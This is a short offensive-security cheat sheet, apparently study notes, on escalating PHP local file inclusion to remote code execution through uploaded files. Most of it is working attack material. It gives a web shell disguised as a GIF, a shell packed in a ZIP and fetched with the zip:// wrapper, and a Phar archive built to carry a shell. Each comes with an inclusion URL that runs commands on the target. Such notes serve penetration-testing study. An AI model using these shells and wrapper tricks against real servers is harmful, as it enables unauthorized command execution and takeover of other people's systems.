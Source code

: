 Execute functions:
PHP: include() / include_once(), require() / require_once()
NodeJS: res.render()
Java: import
.NET: include

## Image Uploads
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
- Upload it, and take note of uploaded path
```url
http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
```

## ZIP Upload
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
- Works if allows ZIP uploads

```url
http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
- zip wrapper

## Phar Upload
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```
```url
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

